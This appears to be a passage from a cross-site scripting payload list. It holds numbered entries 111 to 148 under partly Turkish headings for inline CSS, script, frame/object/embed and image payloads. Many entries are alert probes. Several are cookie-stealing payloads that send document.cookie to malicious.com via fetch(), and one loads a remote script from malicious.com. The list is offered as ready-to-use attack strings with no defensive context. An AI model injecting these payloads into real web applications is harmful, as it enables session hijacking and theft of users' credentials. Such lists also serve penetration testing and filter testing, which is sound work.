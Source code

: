 ## Inline JavaScript ve CSS Payload'ları
111. `<div style="background:url('javascript:alert(1)')">Click me</div>`
112. `<a style="background:url('javascript:alert(1)')">Click me</a>`
113. `<input style="background:url('javascript:alert(1)')">`
114. `<button style="background:url('javascript:alert(1)')">Click me</button>`
115. `<select style="background:url('javascript:alert(1)')"><option>Option</option></select>`
116. `<textarea style="background:url('javascript:alert(1)')">Text</textarea>`
117. `<iframe style="background:url('javascript:alert(1)')"></iframe>`
118. `<style>body:before { content: url('javascript:alert(1)'); }</style>`
119. `<style>@import url("javascript:alert(1)");</style>`
120. `<style>body { background: url('javascript:alert(1)'); }</style>`

## Advanced JavaScript and JSON Payload'ları
121. `<script>fetch('https://malicious.com?cookie=' + encodeURIComponent(document.cookie))</script>`
122. `<script>eval('fetch("https://malicious.com?cookie=" + document.cookie)')</script>`
123. `<script>document.body.innerHTML = '<script src="https://malicious.com/xss.js"></script>'</script>`
124. `<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=fetch("https://malicious.com?cookie=" + document.cookie)>' } })</script>`
125. `<script>eval('fetch("https://malicious.com?cookie=" + document.cookie)')</script>`
126. `<script>document.body.innerHTML = '<iframe src="javascript:fetch(\'https://malicious.com?cookie=\' + document.cookie)"></iframe>'</script>`
127. `<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<script>alert(1)<\/script>' } })</script>`
128. `<script>document.body.innerHTML = '<style>@import url("javascript:fetch(\'https://malicious.com?cookie=\' + document.cookie)")</style>'</script>`
129. `<script>eval("Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=fetch(\'https://malicious.com?cookie=\' + document.cookie)>' } })")</script>`
130. `<script>document.body.innerHTML = '<iframe src="data:text/html,<script>alert(1)</script>"></iframe>'</script>`

## Frame, Object, Embed Payload'ları
131. `<iframe src="data:text/html,<script>alert(1)</script>"></iframe>`
132. `<object data="data:text/html,<script>alert(1)</script>"></object>`
133. `<embed src="data:text/html,<script>alert(1)</script>"></embed>`
134. `<iframe src="javascript:alert(1)"></iframe>`
135. `<object data="javascript:alert(1)"></object>`
136. `<embed src="javascript:alert(1)"></embed>`
137. `<iframe src="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>"></iframe>`
138. `<object data="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>"></object>`
139. `<embed src="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>"></embed>`
140. `<iframe src="javascript:fetch('https://malicious.com/?cookie=' + document.cookie)"></iframe>`

## Image Payload'ları
141. `<img src="javascript:alert(1)">`
142. `<img src="javascript:fetch('https://malicious.com?cookie=' + document.cookie)">`
143. `<img src="data:text/html,<script>alert(1)</script>">`
144. `<img src="data:text/html,<script>fetch('https://malicious.com?cookie=' + document.cookie)</script>">`
145. `<img src="data:text/html,<script>alert(document.cookie)</script>">`
146. `<img src="data:text/html,<script>eval('alert(1)')</script>">`
147. `<img src="data:text/html,<script>document.write('<img src=x onerror=alert(1)>')</script>">`
148. `<img src="data:text/html,<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>">`